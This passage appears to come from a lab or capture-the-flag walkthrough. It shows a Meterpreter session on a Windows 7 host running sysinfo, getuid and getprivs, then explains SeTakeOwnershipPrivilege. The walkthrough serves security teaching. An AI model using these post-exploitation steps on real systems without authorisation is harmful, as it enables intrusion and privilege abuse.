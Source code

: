 We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

SeTakeOwnershipPrivilege

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

The `SeTakeOwnershipPrivilege` is a security privilege in the Windows operating system that determines whether a user or process can take ownership of objects, such as files and directories, that they do not currently own. This privilege is one of several security settings that control user rights and permissions in Windows.
